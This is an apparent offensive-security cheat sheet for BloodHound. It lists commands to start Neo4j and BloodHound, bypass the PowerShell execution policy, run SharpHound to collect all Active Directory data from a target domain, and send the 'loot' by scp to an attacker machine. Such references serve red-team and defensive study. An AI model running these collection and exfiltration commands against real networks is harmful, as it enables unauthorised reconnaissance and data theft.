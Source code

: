 ```yaml
---
title: BLOODHOUND
summary: A tool to reveal the hidden and often unintended relationships within an Active Directory or Azure environment.
description: A tool to reveal the hidden and often unintended relationships within an Active Directory or Azure environment.
---
```


**[https://github.com/BloodHoundAD/BloodHound](https://github.com/BloodHoundAD/BloodHound)**

## BLOODHOUND Start (Attacker Machine)


 > 
 > **<font color=red>sudo neo4j console</font>**</br>
 > Start Neo4j (then connect on http://localhost:7474/).
 > 
 > **<font color=red>bloodhound</font>**</br>
 > Start Bloodhound.

## BLOODHOUND Get Loot (Target Machine)

**https://github.com/BloodHoundAD/BloodHound/tree/master/Collectors**

 > 
 > **<font color=red>powershell.exe -ExecutionPolicy bypass</font>**</br>
 > Bypass PowerShell script execution restrictions.
 > 
 > **<font color=red>. .\SharpHound.ps1</font>**</br>
 > Initialize SharpHound.
 > 
 > **<font color=red>Invoke-Bloodhound -CollectionMethod All -Domain</font> \[TARGET_DOMAIN\] <font color=red>-ZipFileName</font> BloudhoundLoot.zip**
 > Run SharpHound.

 > 
 > **<font color=red>scp</font> BloudhoundLoot.zip myUser<font color=red>@</font>\[ATTACKER_MACHINE\]<font color=red>:</font>/home/myUser/**
 > Bring back the loot to the attacker's machine, and open it in Bloodhound Web UI.
